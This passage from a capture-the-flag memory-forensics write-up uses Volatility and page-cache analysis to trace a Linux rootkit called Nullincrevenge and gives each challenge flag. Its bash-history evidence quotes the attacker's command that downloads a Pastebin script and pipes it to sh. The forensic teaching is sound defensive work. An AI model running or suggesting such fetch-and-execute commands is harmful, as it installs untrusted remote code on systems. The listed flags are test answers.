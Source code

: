 This is kernel module metadata showing:
- **Module name:** Nullincrevenge
- **Author:** i-am-the@network.now
- **Description:** NULLINC REVENGE IS COMING...
- **Functions:** PARASITE_* (rootkit functionality)

**Flag:** `i-am-the@network.now`

---

### Question 4: Malicious Rootkit Path

**Task:** The attacker downloaded and executed code from Pastebin to install a rootkit. What is the full path of the malicious file?

**Solution:**

From the bash history (PID 22714), I found the rootkit installation command:

```
22714   bash    2025-09-03 08:18:40.000000 UTC  wget -q -O- https://pastebin.com/raw/hPEBtinX|sh
```

The attacker downloaded and executed a script from Pastebin that installed the rootkit. From Question 5, I knew the module name was `Nullincrevenge.ko`, but I needed the full path.

Searching `strings.txt` for "Nullincrevenge" only revealed partial paths. To find the complete path, I used Volatility's `linux.pagecache.File` plugin to examine cached file metadata:

```cmd
(venv) C:\volatility3>set PYTHONIOENCODING=utf-8
(venv) C:\volatility3>python vol.py -f C:\Users\Utilisateur\Desktop\The_Tunnel_Without_Walls\memdump.mem linux.pagecache.File > cache.txt
```

Searching for "Nullincrevenge" in the cache output:

```
0x9b33882a9000  /  8:1  298762  0x9b3386454a80  REG  135  39  -rw-r--r--  
2025-09-03 08:18:44.155080 UTC  2025-09-03 08:18:40.799070 UTC  
/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko
```

**Why Page Cache Analysis?**

The page cache stores recently accessed files in memory for performance. Even if a file isn't in an active process, its metadata persists in the cache, making it valuable for:
- Finding deleted or hidden files
- Recovering full file paths
- Establishing file access timelines

**Flag:** `/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko`

---

### Question 6: DNS Manipulation Package

**Task:** The next step in the attack involved issuing commands to modify the network settings and installing a new package. What is the name and PID of the package?

